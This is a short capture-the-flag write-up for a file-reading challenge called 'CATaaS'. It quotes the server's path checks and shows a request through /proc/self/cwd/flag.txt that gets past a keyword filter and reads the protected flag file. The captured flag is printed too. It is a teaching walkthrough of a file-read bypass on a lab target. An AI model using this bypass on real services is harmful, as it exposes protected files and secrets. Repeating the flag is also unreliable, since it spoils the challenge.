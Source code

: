 # CATaaS:

## Introduction:
The name of this challenge `CATaaS` giv us the intuition that is about reading files.
## Deep in the challenge:
 and if we read its source code, we notice that:

 - The listning path is `/read_file/{file}`.
 - The code executes a series of tests for our path:
  ```
    try:
        if not os.path.exists(file_path):
            return {"error": "File not found 😅"}
        if not file_path.startswith('/'):
            return {"error": "Not the right way 🥲"}
        if not os.path.isfile(file_path):
            return {"error": "Not a file 😕"}
        if 'ingehack' in file_path:
            return {"error": "No way 🙂"}
        try:
            return FileResponse(file_path)
        except:
            return {"error": "Failed"}
    except:
        return {"error": "Something went wrong"}
```


So our path should have the following criteria:

 - It Should exist.
 - It should be absolute.
 - It should be a path of a file.
 - It shouldn't contain the word : `ingehack`

 > Reading the `docker-compose.yaml` file, we know that the flag is in the `app` directory, and it's path is : `/home/ingehack/app`.

The forth test forces us to not use the path `/home/ingehack/app/flag.txt/`, so we must find another way to go to that path.

As we know, in Linux, each process has its own directory in the `/proc` folder, so one way to access the `app` directory is to go to `/proc/{pid}/cwd/`, so let's try `/proc/self/cwd/flag.txt`:
```
http://misc-chall.ingehack.ingeniums.club:6003/read_file//proc/self/cwd/flag.txt
```
And we get the flag:
```
IngeHack{175_alwAY5_g00D_70_Kn0W_50M3_l1Nux_7r1cX}
```